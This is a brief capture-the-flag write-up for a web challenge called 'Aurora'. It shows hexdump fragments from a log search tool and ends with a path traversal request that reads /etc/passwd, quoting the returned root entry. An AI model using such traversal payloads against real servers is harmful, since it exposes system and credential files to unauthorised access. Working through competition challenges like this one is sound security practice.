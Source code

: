 # CHALLENGE 02

After recent attacks, we’ve developed a search tool. Search the logs and discover what the attackers were after.

Hint: Always search deeper.

https://aurora-web.h4ck.ctfcompetition.com/


## Step 1

aurora

0001bd30  61 5f 53 72 63 5c 41 75  72 6f 72 61 56 4e 43 5c  |a_Src\AuroraVNC\|



  |_

00002e70  5f 55 42 82 d5 53 50 93  ec b2 e0 6b 08 a2 94 dd  |_UB..SP....k....|
00003570  5f 09 ac 68 46 a5 e3 1c  95 61 27 29 8d a9 05 e5  |_..hF....a')....|

We realised we can use requests
https://aurora-web.h4ck.ctfcompetition.com/?file=hexdump.txt&term=00


The 4 letter check seems to be done both in backend and frontend.

```
<!-- /src.txt -->
```


https://aurora-web.h4ck.ctfcompetition.com/?file=../../../../etc/passwd&term=root
root:x:0:0:root:/root:/bin/bash


